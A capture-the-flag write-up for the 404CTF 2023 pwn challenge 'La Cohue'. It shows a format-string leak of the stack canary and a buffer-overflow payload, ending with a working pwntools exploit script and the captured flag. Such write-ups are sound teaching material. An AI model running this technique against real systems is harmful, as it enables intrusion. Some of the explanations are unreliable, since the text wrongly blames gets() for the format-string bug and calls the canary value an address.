 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | La Cohue
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, Canary]
permalink: /CTFs/404CTF_2023/Pwn/La_Cohue
---
```


# La Cohue

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7ea16ade-ee82-4fa2-85eb-189b0bb37058)

In this challenge, we are given an `ELF` executable available [here](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Pwn/la_cohue). If we look at the code in Ghidra, we can see a `canary` function that prints the flag. The executable allows us to discuss with `Francis` that lost his `canary`. With all of this `canaries`, we can guess that this challenge want us to do a buffer overflow and bypass the canary.

## Format string 

As we can see in the code, there is the `gets` function that will print our input. `gets` function in C is vulnerable to format string attacks. The `gets` function is used to read a line of input from the standard input and store it into a buffer. However, it does not perform any bounds checking on the input, making it susceptible to buffer overflows and format string vulnerabilities.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/316bd519-a916-4b40-a47d-ce521c3c67ca)

We can try using a basic payload like `%p` to see if anything happens:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/7773fb55-a595-4a92-ade1-5af6bdd78c4d)

## Get the canary address

As we can see, we have an address displayed. We can continue to do so until we find the address of the `canary`. The address of the canary is easy to find, it is the only one that finish with some zeros at the end. We can use `%i$p` where `i` is an integer. This is used to read the value from a specific position on the stack. Here's a breakdown of the notation:
```
%i: It specifies the position of the address we will display
$p: It indicates that the value to be printed is fetched from the stack at a specific position indicated by the integer value i.
```

So we can do for example `%1$p %2$p %3$p %4$p %5$p %6$p %7$p %8$p %9$p %10$p`:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c25e701b-e3ef-432b-959b-6d17ec966d17)


We don't see anything interesting here. The strings at the end that look like `0x2432252070243125` are just our input. If we decode `0x2432252070243125` to ASCII characters, we get `$2% p$1%`. We can continue with the values from `11` to `20` and we have:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/e40fbb47-5473-45f2-9f0c-0a1fda10573f)

We can see that the address at position `%17` is `0xea9dd891cb4be500` wich ends with `00`. This may be our address. We can run it a second time to confirm that it is the good one:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/ddccb33c-8f4b-4cc9-a1a0-6ed5c5074e83)

As we can see, the address changed but still ends with two zeros. This should be the address of our `canary`. Because there is no ASLR on this program, we can get the address of the `canary` function using Ghidra or Gdb:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/720a2025-cbc5-4000-b7bb-f51090e78b7c)

## Craft our payload

Now, for our payload to work correctely, we need to find the offset value, that can be found in the `choice` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c70953d4-68c4-4d15-b94b-de8886684adb)

Now we have everything we need. We can use the following code to get the flag:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("la_cohue")
io = remote("challenges.404ctf.fr", 30223)

io.sendline("2")
# try with %10$ ... %20$p => find an address like 0x...00 => this address is the canary address
io.sendline("%17$p ")

io.recvuntil("[Vous] : ")
addr_canary = io.recvline()[:-1].decode()
print("@ canary:", addr_canary)

#String to hex
addr_canary = int(addr_canary, 16)
#convert to address format
addr_canary = p64(addr_canary)

aff = io.recvuntil(">>> ")
#address of the function named Canary (found in Ghidra or objdump -d | grep canary)
addr_fct_canary = p64(0x00400877)

offset = 72
payload = b"A" * offset + addr_canary + 8* b"A" + addr_fct_canary

io.sendline("1")
io.recvuntil("[Vous] : ")
io.sendline(payload)
print(io.recvline().decode())
io.recvuntil(">>> ").decode()
io.sendline("3")
print(io.recvline().decode())

print("Flag : "+io.recvline().decode())
```

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f8cf3fb7-bff4-4ca7-9204-8dc2d0205441)

We get the flag `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`

